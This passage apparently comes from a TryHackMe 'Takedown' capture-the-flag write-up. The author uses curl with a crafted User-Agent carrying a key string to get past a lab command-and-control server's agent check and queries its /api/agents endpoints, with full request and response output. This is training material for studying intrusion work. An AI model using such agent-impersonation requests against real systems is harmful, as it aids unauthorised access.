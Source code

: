 ```
@[*] Key matches!
```

Hmm... **What if the C2 endpoint is checking the `User-Agent` to communicate  between the C2 teamserver??**

**Let's provide that `User-Agent` in `curl`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -vv -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents
*   Trying 10.10.51.56:80...
* Connected to takedown.thm.local (10.10.51.56) port 80 (#0)
> GET /api/agents HTTP/1.1
> Host: takedown.thm.local
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.23.1
< Date: Sun, 02 Oct 2022 04:31:45 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 39
< Connection: keep-alive
< Keep-Alive: timeout=20
< Access-Control-Allow-Origin: *
< 
* Connection #0 to host takedown.thm.local left intact
{'okpj-pigz-ypeu-fwaf': 'www-infinity'}
```

Ohh!!! We're no longer in Apache!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -vv -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/register
*   Trying 10.10.51.56:80...
* Connected to takedown.thm.local (10.10.51.56) port 80 (#0)
> GET /api/agents/register HTTP/1.1
> Host: takedown.thm.local
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 401 UNAUTHORIZED
< Server: nginx/1.23.1
< Date: Sun, 02 Oct 2022 04:34:37 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 23
< Connection: keep-alive
< Keep-Alive: timeout=20
< Access-Control-Allow-Origin: *
< 
* Connection #0 to host takedown.thm.local left intact
You're not a live agent
```
